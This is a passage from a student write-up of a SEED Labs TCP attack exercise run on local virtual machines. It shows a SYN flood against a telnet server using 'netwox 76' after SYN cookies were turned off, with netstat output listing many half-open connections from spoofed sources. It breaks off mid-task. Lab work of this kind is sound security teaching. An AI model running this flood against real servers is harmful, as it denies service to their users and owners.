

Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/TCP_Attacks.pdf

Set up 3 VM:

- **Server**: `10.0.2.4`
- **Attacker**: `10.0.2.15`
- **User**: `10.0.2.5`

# Task 1

First, on the server, turn off the countermeasure **SYN cookies**

```
sudo sysctl -w net.ipv4.tcp_syncookies=0
```

```shell
$sudo sysctl -q net.ipv4.tcp_max_syn_backlog
net.ipv4.tcp_max_syn_backlog = 128
```

Use `netstat -na`, get:

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN     
tcp        0      0 10.0.2.4:53             0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::53                   :::*                    LISTEN     
tcp6       0      0 :::21                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::3128                 :::*                    LISTEN     
tcp6       0      0 ::1:953                 :::*                    LISTEN     
udp        0      0 0.0.0.0:56869           0.0.0.0:*                          
udp        0      0 0.0.0.0:60971           0.0.0.0:*                          
udp        0      0 127.0.1.1:53            0.0.0.0:*                          
udp        0      0 10.0.2.4:53             0.0.0.0:*                          
udp        0      0 0.0.0.0:33333           0.0.0.0:*                          
udp        0      0 127.0.0.1:53            0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:*                          
udp        0      0 0.0.0.0:631             0.0.0.0:*                          
udp        0      0 0.0.0.0:5353            0.0.0.0:*                          
udp6       0      0 ::1:34259               ::1:34202               ESTABLISHED
udp6       0      0 :::53                   :::*                               
udp6       0      0 :::49253                :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 ::1:34202               ::1:34259               ESTABLISHED
udp6       0      0 :::43932                :::*                               
raw        0      0 0.0.0.0:1               0.0.0.0:*               7          
raw6       0      0 :::58                   :::*                    7          
raw6       0      0 :::58                   :::*                    7        
```
No TCP connection has `ESTABLISHED` state yet.

Then on the attacker machine:

```
sudo netwox 76 -i 10.0.2.4 -p 23 -s raw
```

After a while, use `netstat -na` to check again:

```
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 10.0.2.4:23             253.37.9.90:29644       SYN_RECV   
tcp        0      0 10.0.2.4:23             248.147.173.48:53909    SYN_RECV   
tcp        0      0 10.0.2.4:23             247.46.89.105:7502      SYN_RECV   
tcp        0      0 10.0.2.4:23             243.229.203.189:42333   SYN_RECV   
tcp        0      0 10.0.2.4:23             246.244.53.206:57787    SYN_RECV   
tcp        0      0 10.0.2.4:23             249.102.12.251:24453    SYN_RECV   
tcp        0      0 10.0.2.4:23             244.176.157.55:49031    SYN_RECV   
tcp        0      0 10.0.2.4:23             247.2.21.131:10590      SYN_RECV   
tcp        0      0 10.0.2.4:23             246.91.154.140:20177    SYN_RECV   
tcp        0      0 10.0.2.4:23             248.79.118.252:19283    SYN_RECV   
tcp        0      0 10.0.2.4:23             244.80.239.198:32419    SYN_RECV   
tcp        0      0 10.0.2.4:23             242.210.141.208:16979   SYN_RECV   
tcp        0      0 10.0.2.4:23             253.118.208.122:16242   SYN_RECV   
tcp        0      0 10.0.2.4:23             250.62.104.1:59169      SYN_RECV   
tcp        0      0 10.0.2.4:23             253.106.167.210:45412   SYN_RECV   
tcp        0      0 10.0.2.4:23             242.127.134.197:2832    SYN_RECV   
tcp        0      0 10.0.2.4:23             240.252.233.154:29403   SYN_RECV   
tcp        0      0 10.0.2.4:23             244.144.27.104:39086    SYN_RECV   
tcp        0      0 10.0.2.4:23             245.46.194.239:65426    SYN_RECV   
tcp        0      0 10.0.2.4:23             252.95.20.253:54774     SYN_RECV   
tcp        0      0 10.0.2.4:23             249.17.43.156:55525     SYN_RECV   
tcp        0      0 10.0.2.4:23             252.217.188.194:13813   SYN_RECV   
tcp        0      0 10.0.2.4:23             243.100.186.129:23679   SYN_RECV   
tcp        0      0 10.0.2.4:23             244.56.4.56:17826       SYN_RECV   
tcp        0      0 10.0.2.4:23             245.8.59.84:53947       SYN_RECV   
tcp        0      0 10.0.2.4:23             253.88.152.41:26808     SYN_RECV  
...
```
There are plenty of `SYN_RECV ` state (i.e. half-open) connections targeting `10.0.2.4` from random source IP. The server seems to be overwhelmed.

Meanwhile, if you attempt to `telnet` the server machine from the user machine, it will show:

